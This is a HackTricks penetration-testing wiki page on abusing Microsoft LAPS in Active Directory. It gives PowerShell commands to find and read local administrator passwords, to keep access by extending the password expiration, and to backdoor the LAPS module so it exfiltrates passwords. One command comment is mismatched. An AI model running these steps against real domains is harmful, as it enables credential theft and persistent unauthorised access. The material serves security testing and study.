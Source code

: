 # LAPS

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Basic Information

**LAPS** allows you to **manage the local Administrator password** (which is **randomised**, unique, and **changed regularly**) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using Kerberos v5 and AES.

When using LAPS, **2 new attributes** appear in the **computer** objects of the domain: **`ms-msc-AdmPwd`** and **`ms-mcs-AdmPwdExpirationTime`**_._ These attributes contains the **plain-text admin password and the expiration time**. Then, in a domain environment, it could be interesting to check **which users can read** these attributes.

### Check if activated

```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

### LAPS Password Access

You could **download the raw LAPS policy** from `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` and then use **`Parse-PolFile`** from the [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) package can be used to convert this file into human-readable format.

Moreover, the **native LAPS PowerShell cmdlets** can be used if they're installed on a machine we have access to:

```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

**PowerView** can also be used to find out **who can read the password and read it**:

```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```

### LAPSToolkit

The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) facilitates the enumeration of LAPS this with several functions.\
One is parsing **`ExtendedRights`** for **all computers with LAPS enabled.** This will show **groups** specifically **delegated to read LAPS passwords**, which are often users in protected groups.\
An **account** that has **joined a computer** to a domain receives `All Extended Rights` over that host, and this right gives the **account** the ability to **read passwords**. Enumeration may show a user account that can read the LAPS password on a host. This can help us **target specific AD users** who can read LAPS passwords.

```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```

## **LAPS Persistence**

### **Expiration Date**

Once admin, it's possible to **obtain the passwords** and **prevent** a machine from **updating** its **password** by **setting the expiration date into the future**.

```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

{% hint style="warning" %}
The password will still reset if an **admin** uses the **`Reset-AdmPwdPassword`** cmdlet; or if **Do not allow password expiration time longer than required by policy** is enabled in the LAPS GPO.
{% endhint %}

### Backdoor

The original source code for LAPS can be found [here](https://github.com/GreyCorbel/admpwd), therefore it's possible to put a backdoor in the code (inside the `Get-AdmPwdPassword` method in `Main/AdmPwd.PS/Main.cs` for example) that will somehow **exfiltrate new passwords or store them somewhere**.

Then, just compile the new `AdmPwd.PS.dll` and upload it to the machine in `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (and change the modification time).

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
